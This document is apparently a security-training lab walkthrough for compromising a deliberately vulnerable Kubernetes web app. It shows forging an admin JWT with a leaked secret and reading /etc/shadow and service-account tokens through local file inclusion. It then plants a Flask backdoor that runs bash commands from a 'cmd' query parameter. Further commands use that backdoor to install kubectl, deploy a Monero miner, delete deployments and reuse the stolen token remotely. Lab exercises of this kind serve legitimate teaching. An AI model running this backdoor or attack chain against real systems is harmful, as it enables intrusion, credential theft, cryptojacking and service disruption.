 # Exploit Application Vulnerabilities


Application vulnerabilities can bring wide range of different entrypoints. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.



## Attack
1. get the `SECRET_KEY`:
  - either find the [leaked value](http://rus-vote.seck8s.slurm.io/clusters/local/namespaces/vulnapp/deployments/images-api) in the exposed unprotected Dashboard
  - or check the Git-blame to find the hard-coded secret in sources *vulnerability: [hard-coded credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*
2. register a test user in `auth-api`, get the JWT (with `user_role='user'`)
3. proceed to `images-api` with the JWT token, see the image (partially logged in)
4. decode the JWT token using the leaked secret key and modify `user_role='admin'` (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
5. proceed to `images-api` with the new token, see the admin page
6. read some files: `/var/run/secrets/kubernetes.io/serviceaccount/token`, `./app.py`, `/etc/shadow`, `/proc/1/environ`, etc.: (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)*)
7. write the `./app.py` with backdoor activated via GET parameter `cmd` ([Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload))
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
8. since the server is in Debug mode, it auto-reloads without restarting the pod
9. use the backdoor to install `kubectl`:
  - `?cmd=apt-get+update`
  - `?cmd=apt-get+-y+install+curl`
  - Next, from https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/ :
  - `?cmd=curl%20-LO%20%22https://dl.k8s.io/release/$(curl%20-L%20-s%20https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl%22`
  - `?cmd=install%20-o%20root%20-g%20root%20-m%200755%20kubectl%20/usr/local/bin/kubectl`
  - `?cmd=kubectl+get+all`
10. now you can use kubectl configured to the workload's service account (deploy a miner): `?cmd=kubectl+apply+-f+images/monero-deployment.yaml`
11. or shut down the cluster's payload (Deployment only, permitted by RBAC): `?cmd=kubectl+delete+deployment+auth-api`

> Note: inside the pod, kubectl is authenticated to the pod's SA. However, you could save SA's `token` and `ca.crt` to your local machine and, knowing the Kube API public URI, you can acess it remotely:
> ```kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>```


## Steps to reproduce

1. Deploy [vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`)
2. Go to [auth service](http://auth.vulnapp.seck8s.slurm.io/)
3. Sign-up any user and login
4. Get redirection to the [image service](https://images.vulnapp.seck8s.slurm.io/) with the greatest cat in the world :)
5. Decode JWT token and try to get more privileges
6. Write any interesting file (take a look at the image b64 data you'll receive)
7. Upload any interesting file (note: the container runs as root so you're relatively free)
8. Get working `kubectl` for the cluster
